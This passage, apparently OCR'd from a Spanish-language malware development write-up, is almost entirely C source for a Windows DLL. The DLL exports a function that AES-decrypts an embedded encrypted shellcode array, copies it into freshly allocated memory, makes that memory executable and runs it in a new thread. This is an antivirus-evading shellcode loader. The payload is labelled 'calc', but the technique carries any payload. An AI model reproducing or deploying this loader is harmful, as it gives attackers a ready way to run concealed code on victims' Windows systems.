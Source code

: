 ```c
                return -1;
        }
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);  
        return 0;
}
	
__declspec(dllexport) BOOL WINAPI f0ns1(void) {	
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	unsigned char calc_payload[] = { 0x3f, 0x9d, 0x4, 0x52, 0x9c, 0x99, 0x8e, 0x50, 0x35, 0x14, 0xd, 0xa8, 0x8e, 0xf9, 0x74, 0x85, 0x16, 0xc5, 0x6c, 0xf7, 0xb3, 0xd0, 0x3f, 0x72, 0x4e, 0xfa, 0x7d, 0x3b, 0xe4, 0x39, 0xc5, 0xcb, 0x7c, 0xdf, 0xb2, 0xa0, 0xd2, 0xac, 0xca, 0x63, 0x2e, 0x31, 0xb, 0xf4, 0x1b, 0xfb, 0x10, 0xba, 0x2b, 0x7d, 0x47, 0x46, 0xce, 0x79, 0x7c, 0x79, 0x19, 0x4c, 0x9a, 0xca, 0x2f, 0xf3, 0x1e, 0x50, 0x28, 0x63, 0x65, 0x4e, 0x84, 0x8e, 0x43, 0x62, 0xcc, 0xc6, 0xb3, 0x5, 0x8b, 0x12, 0x9e, 0xc8, 0x33, 0x55, 0xe8, 0xe2, 0x5e, 0xe, 0x8d, 0x6f, 0xb3, 0xa8, 0x87, 0x11, 0xcb, 0xc8, 0x68, 0x86, 0x56, 0x94, 0xfd, 0xb2, 0x9a, 0x84, 0x42, 0x6e, 0xd5, 0x38, 0x0, 0x63, 0xd1, 0xbe, 0x80, 0xa, 0xe6, 0xc0, 0xf8, 0x22, 0x63, 0xb6, 0x85, 0x85, 0xe3, 0x8, 0xe3, 0xac, 0x1e, 0xa3, 0x1, 0x39, 0xca, 0x71, 0xd3, 0xd8, 0x8d, 0x83, 0x8f, 0xa4, 0x5b, 0x1b, 0x3e, 0xc6, 0x86, 0x6f, 0xb9, 0xd9, 0x5d, 0x29, 0x4b, 0x16, 0x7d, 0xbf, 0x2e, 0xa2, 0x1d, 0x6f, 0x5e, 0xf6, 0x62, 0x54, 0x22, 0x87, 0x4, 0x8a, 0xd6, 0x1c, 0xff, 0x42, 0xf4, 0x3c, 0xa3, 0xfc, 0x50, 0x7d, 0x1c, 0xa3, 0xc3, 0xe, 0xdc, 0x1a, 0x7d, 0x1f, 0x9c, 0x41, 0xd4, 0xa7, 0x31, 0x5e, 0x7d, 0x37, 0x2f, 0x6f, 0xec, 0x71, 0x9a, 0x24, 0xe6, 0x8e, 0x2c, 0x71, 0x6f, 0x4f, 0x4b, 0x19, 0xf1, 0xbb, 0x66, 0xbd, 0x6d, 0xbd, 0x16, 0x70, 0x8a, 0x8b, 0x29, 0x56, 0xbd, 0xe6, 0x6a, 0x46, 0xf9, 0x60, 0x8a, 0xa1, 0x5b, 0x81, 0x1c, 0x2, 0x53, 0xb3, 0xdf, 0x2b, 0xcc, 0xae, 0x4d, 0x7a, 0xf7, 0x0, 0xa, 0x47, 0xbb, 0x33, 0xdf, 0x1f, 0x32, 0xba, 0x25, 0xf7, 0x58, 0x5, 0x9e, 0xc5, 0xe4, 0x4e, 0xdf, 0x57, 0xd1, 0x69, 0xa9, 0x96, 0x50, 0xbf, 0xde, 0x3d, 0x26, 0xe0, 0x6, 0xe0, 0x46, 0x25, 0x23, 0x40, 0x7e, 0xe2, 0xa2, 0x3c, 0x2a, 0x92, 0xe5, 0x95, 0xff, 0x81, 0x7c, 0x42, 0x61, 0x3, 0xac, 0xdc, 0x91, 0x8f };
	unsigned int payload_len = sizeof(calc_payload);
	char key[] = { 0x95, 0x21, 0x49, 0x58, 0x98, 0xe8, 0x50, 0xef, 0x36, 0x29, 0x22, 0x93, 0x9e, 0xce, 0x25, 0xc3 };
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	AESDecrypt((byte *) calc_payload, payload_len, key, sizeof(key));
	RtlMoveMemory(exec_mem, calc_payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
}
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
La ejecución del proceso: 
